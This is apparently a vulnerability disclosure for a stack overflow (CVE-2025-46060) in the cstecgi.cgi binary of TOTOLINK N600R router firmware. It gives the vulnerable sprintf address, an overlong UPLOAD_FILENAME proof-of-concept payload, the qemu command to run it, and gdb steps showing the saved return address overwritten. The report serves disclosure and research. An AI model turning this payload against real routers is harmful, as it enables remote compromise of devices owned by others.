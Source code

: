 # Vulnerability Report: CVE-2025-46060

## Product:
Affected Product Code Base: TOTOLINK_N600R_V4.3.0cu.7866_B20220506
Unzipped cstecgi.cgi
Download address: https://totolink.tw/support_view/N600R
Vulnerability Type: stack overflow
Attack Type: Remote


## stack overflow
![攻击点](https://i.miji.bid/2025/04/11/2ad138a4cf77b7797988f62bab06ad44.png)

At the binary file(cstecgi.cgi) address 0x00423914 (in the main function), sprintf is called. Variables such as acstack_ have clear size limits in the context, but the content_ptr required for FileName is read from the environment variable UPLOAD_FILENAME. The function call here does not check UPLOAD_FILENAME, which poses a buffer overflow risk.
![获得FILENAME](https://i.miji.bid/2025/04/11/7fb8540479f24de054af4ca47587c9fc.png)


## Simulate running in qemu
```bash
PAYLOAD=$(python3 -c "print('a'*6023+'DOIT')")
sudo chroot ./ ./qemu-mips-static\
	-E QUERY_STRING="action=upload&\"abc\" : [ &2aaaa&3aaaaaaaa&4aaaaaaaa&5aaaaaa" \
	-E UPLOAD_FILENAME="$PAYLOAD"\
	-E CONTENT_LENGTH="123" -g 123 -L ./lib \
	./web_cste/cgi-bin/cstecgi.cgi  <  ./poc
```


```bash
gdb-multiarch  ./web_cste/cgi-bin/cstecgi.cgi
```
Set a breakpoint at the address after sprintf is executed. Found that the buffer overflow is successful.

![enter image description here](https://i.miji.bid/2025/04/11/ccafab023430897fd2c42575fcf67d54.md.png)

Set a breakpoint before returning to the code block and find that the ra saved from the stack has become "DOIT"

![enter image description here](https://i.miji.bid/2025/04/11/a2d7030217022468118fc352dba55973.png)

